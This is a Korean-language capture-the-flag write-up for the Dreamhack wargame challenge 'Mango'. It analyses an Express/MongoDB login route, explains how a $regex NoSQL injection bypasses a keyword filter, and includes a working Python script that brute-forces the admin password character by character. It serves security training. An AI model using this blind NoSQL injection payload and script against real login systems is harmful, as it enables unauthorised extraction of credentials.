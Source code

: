 # Mango

### Overview

[Link (Mango)](https://dreamhack.io/wargame/challenges/90)

**Environment**
```
Language: Javascript
Framework: ExpressJS
Database: MongoDB
```


1. Code Analysis<a href="#1-code-analysis"><sup>[1]</sup></a>
    - main.js
        - Hint
        - `BAN`
        - `filter`
        - `/login`
        - `/`

2. Vulnerability<a href="#2-vunerability"><sup>[2]</sup></a>

    - NoSQL Injection

3. Scenario<a href="#3-scenario"><sup>[3]</sup></a>

4. Payload<a href="#4-payload"><sup>[4]</sup></a>

5. Exploit<a href="#5-exploit"><sup>[5]</sup></a>

6. Conclusion<a href="#5-conclusion"><sup>[6]</sup></a>

---

### 1. Code Analysis

- main.js

    - Hint
    ```
    // flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
    ```
    `Flag`의 위치를 알려주고 있으며, `upw`의 형태 및 조건을 알려주고 있다.

    <br/>

    - `BAN`
    ```js
    const BAN = ['admin', 'dh', 'admi'];
    ```
    이후 `filter`에 사용될 문자열들로, 개인적으로 이 부분에서도 약간의 힌트가 있었다고 생각하였다.  
    `admin`뿐만 아니라 `admi`까지 따로 제시된 것을 보고 정규표현식을 떠올렸다.

    </br>
    
    - `filter`
    ```js
    filter = function(data){
        const dump = JSON.stringify(data).toLowerCase();
        var flag = false;
        BAN.forEach(function(word){
            if(dump.indexOf(word)!=-1) flag = true;
        });
        return flag;
    }
    ```
    파라미터로 전달받은 `data`를 소문자로 변환하고, `BAN` 배열을 확인하여 해당하는 문자열이 있다면 `true`를, 아니라면 `false`를 반환한다.

    <br/>

    - `/login`
    ```js
    app.get('/login', function(req, res) {
        if(filter(req.query)){
            res.send('filter');
            return;
        }
        const {uid, upw} = req.query;

        db.collection('user').findOne({
            'uid': uid,
            'upw': upw,
        }, function(err, result){
            if (err){
                res.send('err');
            }else if(result){
                res.send(result['uid']);
            }else{
                res.send('undefined');
            }
        })
    });
    ```
    `req`로 받은 파라미터를 `filter` 함수를 적용하여 `true`일 경우 화면에 `filter`를 출력하고 동작을 마친다.  
    그렇지 않은 경우 `uid`와 `upw`에 받은 파라미터값을 입력한다.  
    이후 Database `user`에서 변수 `uid`와 `upw`가 DB 내 `uid`, `upw`에 해당하는 값을 하나 찾는다.  
    오류 발생 시 `err`를 출력하고, 결과값이 나온 경우 해당 값의 `uid`를 출력한다.  
    이외의 경우 `undefined`를 출력하여 동작을 종료한다.
    
    </br>
    
    - `/`
    ```js
    app.get('/', function(req, res) {
        res.send('/login?uid=guest&upw=guest');
    });
    ```
    `/login?uid=guest&upw=guest`를 출력한다.  
    `login`페이지의 존재 여부와 해당 페이지로 전달되는 파라미터를 알려주는 페이지이다.  
    해당 값을 URL에 입력하면 쿼리 결과값의 `uid` 부분인 `guest`가 출력된다.

---

### 2. Vunerability
- NoSQL Injection: 동적 쿼리를 생성하며, 쿼리에 대한 검증이 따로 없다. 필터가 존재하나 약한 필터라 평가된다.

---

### 3. Scenario

1. 가용한 정보는 `flag`의 위치, 해당하는 `uid` 문자열과 `upw`의 형태 및 조건, `filter`에 의해 걸러지는 문자열이 있다.

2. 확인된 취약점은 `NoSQL Injection`이다.

3. 공격자 입장에서는 쿼리에 알맞은 질의가 이루어졌는지 확인하는 것만 가능하다.

4. 정규표현식을 이용해 `admin`과 관련한 Payload를 전달하여 `admin`이 출력되는지 확인한다.

5. 이후 Blind SQL Injection처럼 쿼리 반환값을 이용, Brute Force Attack을 수행하여 `Flag`인 `upw`를 알아낸다.

---

### 4. Payload

```
/login?uid[$regex]=ad.in&upw[$regex]=D*
```
`uid`와 `upw` 파라미터를 MongoDB에서 사용되는 정규표현식으로 전달한다.  
전달한 값으로 `uid`는 `admin`의 `m` 자리에 임의의 문자 한개가 포함되는 값, `upw`는 `DH{*}`에서 `D` 이후 임의의 문자열이 추가된 값이다.  
해당 값을 입력하면 `admin`이 출력된다.

---

### 5. Exploit

1. exploit.py
```python
import requests
import string

HOST = input("Host: ")
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''
for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```
`HOST`에 호스트 주소를 입력받는다.  
`upw`에 포함될 수 있는 문자를 `ALPHANUMERIC`에 저장한다.  
익스플로잇에 성공하면 `admin`이 출력되기에 `SUCCESS`에 해당 문자열을 저장한다.  
`flag`를 문자열로 정의하고, 이후 Brute Force Attack에 의해 생성되는 문자열을 저장한다.  
`Flag` 문자열이 32자임을 알고 있으므로 32번의 문자 대조를 실시한다.  
`ALPHANUMERIC`의 문자를 하나씩 `upw` 파라미터에 넣어 정규표현식에 맞는 질의인지 확인하고 `flag`에 문자를 추가해준다.
동작이 모두 완료되면 `FLAG`값을 알 수 있다.

2. index
![index](/Wargame/Mango/img/index.png)

3. login - guest
![login - guest](/Wargame/Mango/img/login%20-%20guest.png)

4. login - admin(Regular Expression)
![login - admin](/Wargame/Mango/img/login%20-%20admin.png)

5. Execute exploit.py
![exploit](/Wargame/Mango/img/exploit.png)

---

### 6. Conclusion



---

[_Go to top_ ↑](#mango)